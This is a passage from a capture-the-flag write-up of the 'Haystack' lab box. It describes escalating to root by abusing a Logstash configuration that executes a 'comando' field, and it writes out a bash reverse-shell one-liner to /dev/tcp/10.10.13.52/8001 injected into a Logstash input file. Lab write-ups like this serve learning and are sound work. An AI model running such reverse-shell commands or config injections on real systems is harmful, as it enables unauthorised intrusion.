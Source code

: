 ![Img](/assets/posts_details/Haystack/images/filter_conf.png)

- ``output.conf``: executes the ``comando`` variable specified in the filter phase.

*output.conf file*

![Img](/assets/posts_details/Haystack/images/output_conf.png)

Hence, to get a shell I just wrote the following to a file:

```sh
echo "Ejecutar comando : bash -i >& /dev/tcp/10.10.13.52/8001 0>&1" > logstash_d
```

*Getting root*

![Img](/assets/posts_details/Haystack/images/root.png)

This box is a really nice way of getting to know ELK, many thanks to the author! I hope you enjoyed this writeup!

---

*Diego Bernal Adelantado*
